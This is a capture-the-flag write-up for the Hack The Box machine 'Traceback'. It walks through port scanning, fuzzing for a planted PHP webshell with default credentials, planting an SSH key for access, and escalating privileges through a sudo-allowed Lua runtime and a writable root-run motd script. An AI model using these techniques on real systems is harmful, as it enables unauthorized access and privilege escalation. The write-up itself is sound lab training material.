

# **TRACEBACK HTB**

Initial nmap scan reveals the following: 

```
sudo nmap -sS -sV -sC 10.10.10.181 > rec_ini
```


So, there is a ssh and an open port 80 (http). Let's try the web server, while I run a complete scan in the background:

```
sudo nmap -p- -T5 10.10.10.181 > all_ports
```
The following is the webpage with some html code: 


```
<!DOCTYPE html>
<html>
<head>
	<title>Help us</title>
	<style type="text/css">
		@-webkit-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@-moz-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		body {
			-webkit-animation: blinking 12.5s infinite;
			-moz-animation: blinking 12.5s infinite;
			animation: blinking 12.5s infinite;
			color: red;
		}
		
	</style>
</head>
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
</html>
```
Let's wait for the complete port scan, because there seems to be some kind of webshell from the comment. 
The all ports scan doesn't show anything.


However, when I googled the comment written there, for some of the best webshells that you might need, I found a repository by the author of the Box. So I looked into the repository and found number of webshells.


I cloned the repository and filtered out only the names of the php webshells into a file.

```
ls -l | grep php > shell_names.txt
cat shell_names.txt | awk '{print $9}' > t
mv t shell_names.txt
```
Now directory brute force the website :

```
$wfuzz -c -z file,$(pwd)/shell_names.txt  --hc 404,403 http://10.10.10.181/FUZZ
```


**smevk.php** is found. The username and password for the webshell is admin:admin and we get into it. (Can be found in the source code of the webshell).


Since, we are logged in as the user webadmin, we can go to the webadmin home page and look into it. Since, the .ssh direfctory is writeable I can create my own ssh keys and upload them via the webshell. I generated ssh keys and dropped the public keys in the .ssh folder as authorized_keys. Then I was able to login as webadmin.


After checking the file note.txt and node.lua I found the following:

```
webadmin@traceback:~$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:~$ cat node.lua 
os.execute('/bin/bash')
webadmin@traceback:~$ 
```

Then I looked at the permission: 

```
sudo -l
```


It seemed that I can run the luvit binary as sysadmin without password. After searching for it I found out that it is a CLI tool that can be used as a scripting platform just like node. It is used for lua scripts and I know lua pretty well ;)

So I ran the node.lua using luvit as sysadmin 

```
sudo -u sysadmin /home/sysadmin/luvit node.lua
```


So I got the user shell for sysadmin. I went to sysadmin directory and got the user.txt


## FINDING THE ROOT

After running pspy on the server, I found out that a process is running as with the UID-0. It is the 00-header: 


It runs the update-motd. It basically creates a cron jon which in turn runs the /usr/sbin/update-motd every 10 minutes.

I noticed that the message printed out during ssh as webadmin, was written in the 00-header in /etc/update-motd.d/00-header. Therefore, it is executed while doing ssh into the server. Also it is writable by the user. 


There is no vim in the server and permission for nano is also denied. I echoed the command in the file. Although I was able to write to the file, at first I wasn't able to get anything. But when I quickly tried writing and ssh-ing into the server, I got the output as root (most probably the file was written by a cronjob)

```
echo id >> 00-header
```



```
echo "cat /root/root.txt" >> 00-header
```


So, that's how I got the root flag. 
